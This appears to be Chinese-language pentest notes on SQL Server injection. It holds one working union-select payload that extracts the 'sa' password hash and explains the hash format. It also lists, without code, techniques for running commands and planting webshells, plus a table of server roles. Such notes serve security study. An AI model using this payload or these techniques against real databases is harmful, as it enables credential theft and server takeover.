 ## MSSql注入

### 1. 定义

* 使用**微软开发的Sql Server数据库**来进行网站搭建

### 2. 技战法

1. SQL注入查登录用户Hash

   * **查询登录用户的HASH密码**

   ```sql
   id=0' union select 1,2,(select master.dbo.fn_varbintohexstr(password_hash) from sys.sql_logins where name='sa')--+'
   #利用函数强制转换为16进制，避免受到格式的影响
   ```

   Hash格式：**0x0100(头部)** + **8位salt** + **40位区分大小写的hash**

2. 扩展存储过程xp_cmdshell执行命令

3. 系统存储过程sp_oacreate + sp_oamethod执行命令

4. 扩展存储过程xp_regwrite写注册表(映像劫持、远程桌面、开机启动项等)

5. 利用CLR组件执行系统命令

6. 系统存储过程sp_addextendproc恢复组件

7. 差异备份写webshell

8. 日志备份写webshell

****

### 3. 权限角色

#### (1). 固定服务器角色

##### a. 包含

| 固定服务器角色 | 说明                                   |
| -------------- | -------------------------------------- |
| **sysadmin**   | **执行SQLServer中的任何动作**          |
| serveradmin    | 配置服务器设置                         |
| setupadmin     | 安装、复制和管理扩展过程               |
| securityadmin  | 管理登录、数据库创建的权限以及阅读审计 |
| processadmin   | 管理SQLServer进程                      |
| dbcreator      | 创建和修改数据库                       |
| diskadmin      | 管理磁盘文件                           |
